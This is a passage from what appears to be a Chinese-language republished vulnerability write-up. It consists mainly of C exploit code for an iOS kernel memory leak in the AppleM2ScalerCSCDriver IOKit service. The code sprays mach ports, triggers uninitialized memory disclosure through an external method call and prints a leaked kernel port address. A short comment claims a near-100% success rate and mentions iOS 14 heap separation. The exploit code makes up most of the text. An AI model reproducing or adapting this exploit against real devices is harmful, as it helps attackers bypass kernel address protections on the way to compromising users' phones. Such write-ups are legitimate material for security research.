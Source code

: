 ```
  for (uint32_t i = 1; i < SPRAY_COUNT; i++)
    mach_port_destroy(mach_task_self(), rcvPorts[i]);
  free((void*)ports);
}
//The actual vulnerability:
void leak_bytes(void* buffer)
{
  io_connect_t client = open_client("AppleM2ScalerCSCDriver", 0);
  kern_return_t kr = IOConnectCallStructMethod(client, 9, (uint64_t*)&buffer, 8, NULL, NULL);
  ASSERT_KR(kr);
  IOServiceClose(client);
}
uint64_t find_port_addr(mach_port_t port)
{
  uint64_t* leak = (uint64_t*)malloc(LEAK_SIZE);
  printf("Preparing heap\n");
  push_to_freelist(port);
  printf("Leaking 0x%zx bytes\n", (size_t)LEAK_SIZE);
  leak_bytes(leak);
  uint64_t addr = leak[1];
  free(leak);
  return addr;
}
int main(int argc, char* argv[], char* envp[])
{
  mach_port_t port = create_port();
  uint64_t port_addr = find_port_addr(port);
  printf("Leaked port address: %p\n", (void*)port_addr);
  return 0;
}
```

我发现此漏洞利用程序的成功率接近 100％，几乎无法检测到任何故障，从而使漏洞利用程序可以继续运行直到成功为止。

**注：**

我被告知，此漏洞的可利用性受到 iOS 14 堆分离的影响。我对 iOS 14 中所做的更改了解不足以确认这一点，但是在查看将来未初始化的内存泄漏时，绝对需要考虑这一点。

![](https://mmbiz.qpic.cn/mmbiz_jpg/3xxicXNlTXLicjiasf4mjVyxw4RbQt9odm9nxs9434icI9TG8AXHjS3Btc6nTWgSPGkvvXMb7jzFUTbWP7TKu6EJ6g/640?wx_fmt=jpeg)

推荐文章 ++++

![](https://mmbiz.qpic.cn/mmbiz_jpg/US10Gcd0tQFGib3mCxJr4oMx1yp1ExzTETemWvK6Zkd7tVl23CVBppz63sRECqYNkQsonScb65VaG9yU2YJibxNA/640?wx_fmt=jpeg)

*  

*

*

![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLib0FWIDRa9Kwh52ibXkf9AAkntMYBpLvaibEiaVibzNO1jiaVV7eSibPuMU3mZfCK8fWz6LicAAzHOM8bZUw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_gif/NZycfjXibQzlug4f7dWSUNbmSAia9VeEY0umcbm5fPmqdHj2d12xlsic4wefHeHYJsxjlaMSJKHAJxHnr1S24t5DQ/640?wx_fmt=gif)